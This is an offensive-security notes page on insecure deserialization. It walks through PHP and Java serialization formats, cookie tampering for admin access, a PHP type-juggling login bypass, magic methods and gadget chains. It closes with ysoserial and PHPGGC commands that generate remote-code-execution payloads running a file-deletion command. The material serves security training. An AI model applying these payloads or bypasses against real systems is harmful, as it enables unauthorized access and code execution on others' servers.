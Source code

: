 ```yaml
---
title: "Insecure deserialization"
weight: 14
---
```


# Insecure deserialization

{{< details summary="General info" >}}

* Serialization is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes.

- Deserialization is the process of restoring this byte stream to a fully functional replica of the original object.

* Some languages serialize objects into binary formats, whereas others use different string formats, with varying degrees of human readability.

- To prevent a field from being serialized, it must be explicitly marked as "transient" in the class declaration.

* Insecure deserialization arises because there is a general lack of understanding of how dangerous deserializing user-controllable data can be.

{{< /details >}}

{{< details summary="PHP serialization format" >}}

```php
$user->name = "carlos";
$user->isLoggedIn = true;
```

```php
O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
```

The native methods for PHP serialization are `serialize()` and `unserialize()`. If you have source code access, you should start by looking for `unserialize()` anywhere in the code and investigating further.

{{< /details >}}

{{< details summary="Java serialization format" >}}

* Some languages, such as Java, use binary serialization formats

- Serialized Java objects always begin with the same bytes, which are encoded as `ac ed` in hexadecimal and `rO0` in Base64.

* Any class that implements the interface `java.io.Serializable` can be serialized and deserialized. If you have source code access, take note of any code that uses the `readObject()` method, which is used to read and deserialize data from an `InputStream`.

{{< /details >}}

**Important**: a serialized object may not be obvious at first view. Example:

```url
%7b%22token%22%3a%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6InRlc3QiO3M6MTI6ImFjY2Vzc190b2tlbiI7czozMjoiZmx6bnQ3ZTRwYTNobGpnN3dpejJkeGxuMHVyN3VkNjYiO30%3d%22%2c%22sig_hmac_sha1%22%3a%226d68c7db6f6b4d5abc5e84acea971fd72d217202%22%7d
```

URL decode

```json
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6InRlc3QiO3M6MTI6ImFjY2Vzc190b2tlbiI7czozMjoiZmx6bnQ3ZTRwYTNobGpnN3dpejJkeGxuMHVyN3VkNjYiO30=","sig_hmac_sha1":"6d68c7db6f6b4d5abc5e84acea971fd72d217202"}
```

Base64 token decoding&#x20;

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"flznt7e4pa3hljg7wiz2dxln0ur7ud66";}
```

## Manipulating serialized objects

* You can either edit the object directly in its byte stream form
* You can write a short script in the corresponding language to create and serialize the new object yourself

### Modifying object attributes

```php
$user = unserialize($_COOKIE);
if ($user->isAdmin === true) {
// allow access to admin interface
}
```

1. Identify serialized object (here in the cookie)
2. Decode it

```php
O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}
```

3. Modify attributes&#x20;

```php
O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:1;}
```

4. Re-encode the object and overwrite (the cookie)

{{< hint style=notes >}}
**Note**: This simple scenario is not common in the wild
{{< /hint >}}

### Modifying data types

PHP -> if you perform a loose comparison `==` between an integer and a string, PHP will attempt to convert the string to an integer, meaning that `5 == "5"` evaluates to `true`.

```php
0 == "Example string" // true
```

```php
$login = unserialize($_COOKIE)
if ($login['password'] == $password) {
    // log in successfully
}
```

Attacker can modify the password attribute so that it contained the integer `0` -> authentication bypass.

{{< hint style=notes >}}
**Note**:&#x20;

* This is only possible because deserialization preserves the data type.
* When modifying data types in any serialized object format, update any type labels and length indicators in the serialized data too (Otherwise, the serialized object will be corrupted and will not be deserialized).
{{< /hint >}}

## Using application functionality

* Consider "Delete user" functionality, the user's profile picture is deleted by accessing the file path in the $user->image\_location attribute
* If this $user was created from a serialized object, an attacker could exploit this by passing in a modified object with the image\_location set to an arbitrary file path

## Magic methods

* Magic methods are a special type of method that are automatically triggered by specific events or scenarios, without explicit invocation. Developers use them to define code execution for these events (e.g., `__construct()`). Some languages have magic methods that are invoked automatically during deserialization.
* In Java deserialization, the `ObjectInputStream.readObject()` method is used to read data from the initial byte stream and essentially acts like a constructor for "re-initializing" a serialized object.

```java
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException
{
    // implementation
}
```

* They allow you to pass data from a serialized object into the website's code before the object is fully deserialized.

## Injecting arbitrary objects

Deserialization methods often don't validate the objects they process. Attackers can pass any serializable class, allowing them to instantiate arbitrary classes. With source code access, you can:

* Identify classes with deserialization magic methods
* Check if they perform unsafe operations on controllable data
* Then pass in a serialized object of this class to use its magic method for an exploit.

## Gadget chains

* A "gadget" is a code snippet in an application that helps an attacker achieve a goal, such as invoking a method to pass input into another gadget. Many insecure deserialization vulnerabilities are exploitable through gadget chains.
* Identifying gadget chains manually is arduous and nearly impossible without source code access. But if a gadget chain in Java's Apache Commons Collections library is exploitable on one website, other websites using this library may also be vulnerable.

### Tools (ysoserial , PHPGGC)

They lets you select a provided gadget chain for a target library, input a command to execute, and generates a serialized object. This reduces the manual effort of crafting gadget chains, though some trial and error is still needed.

**Java**

```bash
# Tool: https://github.com/frohoff/ysoserial
java -jar ysoserial-all.jar CommonsCollections4 "rm /tmp/file.txt"
# Probably you need to encode the payload into base64
java -jar ysoserial-all.jar CommonsCollections4 "rm /tmp/file.txt" | base64 -w 0
```

**PHP**

```sh
# Tool: https://github.com/ambionics/phpggc
./phpggc -b Symfony/RCE7 system "rm /tmp/file.txt"
```

{{< hint style=notes >}}
**Note**:&#x20;

* Pay attention if you need to encode (e.g. URL encode) your payload
* A payload might work even if the server returns an error...
{{< /hint >}}

### Working with documented gadget chains

If no dedicated tool exists for exploiting known gadget chains in the target application's framework, consider searching online for documented exploits to adapt manually.
